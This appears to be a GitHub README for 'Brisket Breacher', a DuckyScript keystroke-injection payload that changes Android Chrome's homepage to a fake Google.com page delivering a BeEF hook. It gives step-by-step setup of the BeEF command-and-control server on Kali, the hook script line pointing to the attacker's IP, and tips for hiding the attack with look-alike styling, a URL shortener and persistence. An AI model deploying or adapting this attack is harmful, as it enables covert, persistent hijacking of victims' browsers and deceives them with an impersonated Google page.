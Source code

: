 <div align="center">
  
# Brisket Breacher

![bb](https://github.com/user-attachments/assets/019730d7-db7d-4a9a-a892-06df2b390adc)

</div>

**Title:** Brisket_Breacher

**Author:** OSINTI4L

**Target Os:** Android mobile device/Google Chrome (tested on Samsung S24 FE | One UI V7.0 | Android V15).

## What is Brisket Breacher?

Brisket Breacher is DuckyScript payload that targets the Android mobile device Google Chrome browser utilizing the Browser Exploitation Framework ([BeEF](https://www.kali.org/tools/beef-xss/)). The payload changes the homepage of the Google Chrome browser to an imitation `Google.com` landing page. When a victim device opens the Google Chrome browser to the homepage, the imitation Google.com page points to a BeEF command and control server via a Javascript BeEF hook, where the attacker has direct control over the browser to allow for further attacks. For the attack to work, the attacker must setup a BeEF C2 server, configure the homepage, and edit the URL to the C2 in the payload.txt (all explained below).

For the purposes of this PoC the BeEF C2 will be hosted locally over LAN, where the attacker machine and target device must be on the same LAN for the attack to be succesful. The same attack can be used outside of LAN if setup via methods such as port forwarding or hosting services.

**Persistence**

Due to the payload changing the homepage in the settings of the Google Chrome browser, this creates persistence. *Even* if the phone is restarted, when the browser homepage is loaded, it will *always* attempt to connect to the BeEF C2.

## Dependencies
## Setting up the BeEF command and control server using a [Kali Linux](https://www.kali.org) box
1. Once you have spun-up an instance of Kali (our attacker machine), you must first find the IP address of the machine. This can be found via `ifconfig`, store the IP address as it will be needed in multiple places momentarily.
  
2. Install BeEF:
    - `sudo apt install beef-xss -y`
     
3. Download the [homepage.html](https://github.com/OSINTI4L/DuckyScript-Payloads/blob/main/Payloads/Brisket_Breacher/homepage.html) file (described next). This will be the homepage that our malicious URL will point to and deliver the BeEF C2 hook.
    - Open the homepage.html and edit the BeEF C2 hook (line 141 `<script src="http://X.X.X.X:3000/hook.js"></script>`) with the IP address gathered from `ifconfig` of the attacker machine and then save the updated file. E.g., `<script src="http://192.168.8.100:3000/hook.js"></script>`.
    - Become root: `sudo su`.
    - With the homepage.html file in your current working directory, move it to the following directory: `mv homepage.html /usr/share/beef-xss/extensions/demos/html`.

4. Start BeEF:
    - `sudo beef-xss`.
   -----
## The homepage
The homepage was designed to imitate a typical Google Search landing page. Multiple features were added in an attempt to help obfuscate the fact that it is a *malicious* homepage. The homepage also delivers the BeEF C2 hook.
  - Features:
    - BeEF C2 hook delivery.
    - Dark and Light mode variations that will render according to device settings.
    - A useable search bar and buttons that will forward the user input as a Google search request.

![googlesearch](https://github.com/user-attachments/assets/1a428553-52d5-417b-aabb-5fc053c33ea8)

## payload.txt
The [payload.txt](https://github.com/OSINTI4L/DuckyScript-Payloads/blob/main/Payloads/Brisket_Breacher/payload.txt) file is the delivery system for configuration of the Google Chrome browser.

**The URL pointing to the BeEF C2 must be defined in line 7 of the payload.txt.** The URL to the BeEF C2 is the following: `http://x.x.x.x:3000/demos/homepage.html` (replacing the IP parameter with the IP address of the attacker machine). E.g., `http://192.168.8.100:3000/demos/homepage.html`. This will point to the homepage.html file that has been previously configured during the BeEF C2 setup stage.

An additional layer of obfuscation can be had by utilizing a URL shortening service (e.g., [Tinyurl](https://tinyurl.com/)). After placing the `http://x.x.x.x:3000/demos/homepage.html` URL into the shortener, you will then use the shortened URL as the constant defined in line 7.

The payload workflow is as follows:
  - Chrome browser is opened.
  - A new tab is opened to ensure the proper browser environment is present for the script to run without issues.
  - The browser is then navigated to the settings menu where the malicious BeEF C2 URL is placed.
  - All tabs are then closed.
  - All applications are then closed and the phone returns to the home screen. This is necessary for obfuscation purposes and to allow the browser to automatically navigate to the malicious homepage when next open.

![demo](https://github.com/user-attachments/assets/89d853d8-ec2c-4ca9-9cee-46ca4f33aab6)

